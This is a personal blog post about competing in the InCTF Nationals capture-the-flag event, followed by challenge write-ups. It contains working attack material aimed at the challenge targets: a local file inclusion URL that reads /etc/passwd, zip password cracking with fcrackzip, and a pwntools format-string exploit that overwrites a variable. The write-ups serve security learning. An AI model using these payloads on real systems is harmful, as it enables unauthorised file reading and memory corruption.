

This is a summary of my experience at InCTF, followed by the challenge writeups.
The *national* version of InCTF is not just a single-day CTF. It starts with mock challenges and live teaching sessions that are run througout the month of October, followed by a qualifier CTF in November.
The qualifier round runs for 24 hours and it is extremely beginner friendly. Depending on which age group you fall into (high school, college, or professional) you qualify for the three-day conference in the last week of December.
There were lots of amazing talks. If you go to my Twitter profile and scroll down to somewhere around December 2019 you'll find some tweets by me that mention the talks that I attented. I loved the talk on Digital Forensics by Ajith Ravindran. One of the talks that I didn't mention but I liked the most was about Advanced Persistent Threats by Shaunak Ganorkar.
On the first night, there was a campfire where we were divided into groups and we talked about how we got started in hacking. It was a great way to chill and network with people having similar interests. If you have the opportunity to participate in InCTF Nationals, I highly recommend you to do so just to be around some really awesome hackers.
On the second day, we had an attack-defense CTF. This was my first time playing attack-defense and I completely bombed it. We were grouped randomly in threes and we had a few services on our machine that we had to protect. Unfortunately, I do not recall exactly what we had to do, but I can say for sure that our team messed up pretty bad. Still there is something really cool about playing an onsite attack-defense and I loved it.
We also had talks and hacking stalls. Personally, I didn't get a lot of time in the hacking stalls but from the little time I spent roaming around I could see various cool things such as a lock-picking, car hacking, and I think some hardware stuff. They even had their own hardware badge for the hardware CTF (which in retrospect I should've participated in).
For the final CTF, the problem-set was relatively easy so the most important thing to keep in mind was the workflow. Though I had worked a lot on my workflow leading up to the CTF, they didn't allow us to use our own systems so I had a lot of small issues with the tooling. They wanted us to use their lab computers to prevent flag-sharing, but in my opinion it really doesn't help prevent it, rather it slows down the whole process.
In the last thirty minutes or so of the CTF, they hid the scoreboard. Before they hid it, I was ranked 2nd. The person who was 1st had a huge margin above me; but below me, people were closing in. I just solved a single challenge after the scoreboard was hidden, so I was really anxious whether I would be able to hold that position. They later released the scoreboard and I was 2nd.
The CTF roughly ran from 9AM to 4PM and for people who where over enthusiastic about it, we didn't even go for lunch. We ate some stuff that they brought in for us in the lab :) you can imagine that after such an elongated stress on the mind you wouldn't want to do anything, but coming 2nd gave me some energy to stay awake for the rest of the day.
Grab the files for the below challenges here.
We are given a PE32 binary called fin.exe, but since we had to use the university computers (which had Ubuntu 16.04) I could only do a static analysis. Below is a snippet of the main function, after getting the user input the program calls _check function.
0x0040142d call sym._scanf
0x00401432 lea eax, dword [local_18h]
0x00401436 mov dword [esp], eax
0x00401439 call sym._check
In the _check function there are a lot of mov instructions in the beginning.
0x00401473 c785b0feffff. mov dword [local_150h], 0x82 ; 130
0x0040147d c785b4feffff. mov dword [local_14ch], 0x7b ; '{' ; 123
0x00401487 c785b8feffff. mov dword [local_148h], 0x48 ; 'H' ; 72
0x00401491 c785bcfeffff. mov dword [local_144h], 0x75 ; 'u' ; 117
0x0040149b c785c0feffff. mov dword [local_140h], 0x83 ; 131
0x004014a5 c785c4feffff. mov dword [local_13ch], 0x70 ; 'p' ; 112
0x004014af c785c8feffff. mov dword [local_138h], 0x75 ; 'u' ; 117
Also there are a few operations being performed on the individuals bytes, before being compared to our input.
0x00401602 83e806 sub eax, 6
0x00401605 83f01e xor eax, 0x1e
0x00401608 83c005 add eax, 5
So in order to reverse the operations, we need to subtract 5, xor 0x1e and add 6. So I extracted all the bytes that were being moved in the begin of the _check function and wrote this small python script to get the flag.
a = "\x82\x7B\x48\x75\x83\x70\x75\x81\x82\x78\x4C\x82\x78\x4C\x78\x82\x7E\x79\x7D\x46\x77\x4C\x75\x81\x4A\x7B\x4C\x72\x7C\x76\x4C\x75\x81\x82\x7B\x80\x6E"
for i in a:
print(chr((ord(i)-5^0x1e)+6),end='')
Flag: inctf{this_is_simpler_than_you_think}
PartyPart 300 pts.We are given a 64-bit ELF binary called Party_Part. The program takes our input then does a string compare. If the string is not 42 (0x2a) characters long, it exits.
0x0000000000000c9b <+99>: mov rdi,rax
0x0000000000000c9e <+102>: call 0x6d0
0x0000000000000ca3 <+107>: cmp rax,0x2a
0x0000000000000ca7 <+111>: je 0xcbf
For the rest of the program I used a decompiler. Below is the output after I have cleaned it up for better understanding. Although switch cases are easy to spot even in disassembly, during a CTF, it is always better to ease your burden therefore I took this approach.
puts("Enter Your lucky number!!");
scanf("%d", &num);
for (i=8; i; --i)
{
switch (num)
{
case 0:
num = first(argv[1][num], num);
break;
case 6:
num = second(argv[1][num], num);
break;
case 12:
num = third(argv[1][num], num);
break;
case 18:
num = fourth(argv[1][num], num);
break;
case 24:
num = fifth(argv[1][num], num);
break;
case 30:
num = sixth(argv[1][num], num);
break;
case 36:
num = seventh(argv[1][num], num);
break;
case 42:
loser();
return result;
case 48:
winner();
return result;
default:
loser();
return result;
}
}
We are asked to enter a number. Every case calls a function (named using ordinal conventions). The arguments passed are a pointer to a specific position (our number) in input string (which is passed using command line arguments) and our input number.
The switch case is especially curious since it is wrapped by a loop that runs eight times so it would seem we would hit the same case again and again.
int first (char *a1, int a2) {
for (i=0; i<6; ++i)
temp[i+a2] = a1[i] ^ 8;
if (strncmp(tem, "afk|ns<ea'pVvj5ar6ginTl&znev:xy~R=kRd7cb&z", a2 + 6))
return 42;
return 6;
}
The function performs a xor operation on the first six characters of our input string and compares it with the first six characters of: afk|ns<ea'pVvj5ar6ginTl&znev:xy~R=kRd7cb&z.
It returns 42 if the string mismatches else it returns 6. This makes the switch statement clearer. Case 42 calls loses() while case 6 calls second(). Other ordinal functions have similar structure, the only difference being the operation used before comparison.
So in total we have seven functions each working on the same string but performing different operations on different chunks (of six characters).
a = "afk|ns<ea'pVvj5ar6ginTl&znev:xy~R=kRd7cb&z"
b = []
b += [chr(ord(x)^8) for x in a][0:6]
b += [chr(ord(x)+9) for x in a][6:12]
b += [chr(ord(x)-2) for x in a][12:18]
b += [chr(ord(x)+0xb) for x in a][18:24]
b += [chr(ord(x)-6) for x in a][24:30]
b += [chr(ord(x)^0xd) for x in a][30:36]
b += [chr(ord(x)^7) for x in a][36:42]
print(''.join(b))
Flag: inctf{Enj0y_th3_p4rty_w1th_p4rts_0f_c0de!}
I don't have the source for the web page, but there was a local file inclusion vulnerability. The home page had some hints towards what the parameter could have been (the keyword page was mentioned with emphasis), but since fuzzing parameters was not allowed, you could only rely on stumbling upon this fact. The /etc/passwd file had the flag. Payload: http://52.168.55.145/index.php?page=../../../../etc/passwd
Flag: inctf{you've_never_had_a_friend_like_me}
PHP Alert 200 pts.Again, unfortunately I do not have the source for this, but the concepts required to win this challenge where mostly related to hash collisions and PHP loose comparison. More information can be found at https://github.com/ spaze/hashes.
Flag: inctf{PHP_H45_M4NY_WAYS_TO_BE_EXPLOITED!!}
We are given an encrypted zip file: TheDilemma.zip. At first I mistakenly used the compressed rockyou file :( to perform a dictionary attack, when it didn't work I gave up on the challenge. Later I saw that the challenge had many solves and realized my stupid mistake.
$ fcrackzip -D -p rockyou.txt -u TheDilemma.zip
PASSWORD FOUND!!!!: pw == trixie
From the zip file we extract two files: a JPG image and a text file containing "YodaMaster". Using steghide and the text file's contents as the password we get the flag.
$ steghide --extract -sf InCTF-Finals.jpg
Enter passphrase:
wrote extracted data to "flag.txt".
Flag: inctf{w0w_D0_Y0u_w4Nt_Th3_F0Rc3_t0_b3_w1Th_Y0u}
Mos Espa - Tatooine 400 pts.In this challenge we get a PCAP: Chall.pcapng and after some analysis using wireshark we see that a client is sending some kind of a POST request to a server repeatedly with different querybytes "abcdef", below is the last request in the series.
POST / HTTP/1.1
Host: 15.206.147.226
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Cookie: PHPSESSID=so17hsr5sghdcecad042uno1fv
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
querybyte=f&auth=8
In the end the server responds by saying "We've searched our database and there is no flag starting with abcdef".
So this gives us the hint that we need the querybyte parameter to represent the flag format prefix, i.e. inctf. After going to the website and trying it, we are able to do it, but at the end of it we get a timeout error. We are also slowed down by the fact that after every request, we get an auth-code which we have to enter in the next query request (as can be seen in the above request).
Because of the above restrictions I made a small script that allowed me to perform the actions faster to prevent a timeout. I could have fully automated it, but I wasn't very confident due to the time constraints so I used this ad-hoc solution.
import requests
url = "http://15.206.147.226"
j = 1337
a = "inctf"
s = requests.Session()
for i in a:
data = {"querybyte":i,"auth":j}
r = s.post(url,data)
print(r.text)
j = int(input())
print(s.post(url,{"querybyte":"{","auth":j}).text)
$ jadx-gui Decode.apk
This is what the MainActivity looks like:
package com.r4hu1.decode;
import android.os.Bundle;
import android.util.Log;
import androidx.appcompat.app.AppCompatActivity;
public class MainActivity extends AppCompatActivity {
/* access modifiers changed from: protected */
public void onCreate(Bundle bundle) {
super.onCreate(bundle);
setContentView((int) R.layout.activity_main);
Log.d("Key", "Secret Key is : " + ("aW5jdGZ7bmV2M3Jfc3QwcmU=" + "X3MzbnMhdGl2M19kYXRh" + "XzFuXzdoM19zMHVyY2VjMGRlfQ=="));
}
}
We can see that there is some secret key logged in base64 format.
Flag: inctf{nev3r_st0re_s3ns!tiv3_data_1n_7h3_s0urcec0de}
Secret Service 200 pts.We get an APK: Secret_Service.apk. Using jadx-gui I saw that the app's package name was com.r4hu1.secretservice and it had an activity which printed the flag for us. The activity name was secretService. We can launch exported activities using the adb shell as follows:
$ adb shell
OnePlus3T:/ $ am start -n com.r4hu1.secretservice/.secretService
Starting: Intent { cmp=com.r4hu1.secretservice/.secretService }
OnePlus3T:/
Flag: inctf{exp0rted_activities_ar3_harmful}
I solved this challenge after the CTF ended. We get a binary called chall. After decompiling it looked somewhat like this:
#include <stdio.h>
#include <fstream.h>
int Overwrite_Me = 0;
int main() {
printf("Please enter your name : ");
scanf("%s",name);
printf("Welcome Mr. ");
printf(name);
if (Overwrite_Me == 0xcafe) {
flag_file = fopen("flag","r");
if (flag_file == (FILE *)0x0) {
printf("Flag file not Found.\nContact the administrator.");
}
else {
char flag[50];
fgets(flag, 50, flag_file);
printf("You deserve this.\nHere, take you flag %s",flag);
}
}
printf("Sorry it is not your day");
exit(0);
}
We see that this program requires us to change the value of Overwrite_Me to 0xcafe using the format string vulnerability on printf(name).
After analyzing the file with gdb I figured out that the buffer starts 20 offset from the first stack pop. Using that and the padding notation in format strings, I came up with the following exploit script:
from pwn import *
payload = p32(0x0804c040); #Overwrite_Me
payload += "%51961x.%20$n"
print payload
$ python exploit.py | ./chall
Please enter your name : Welcome Mr.
-snip-
ff867be0.
You deserve this.
Here, take you flag inctf{this_is_a_dummy_flag}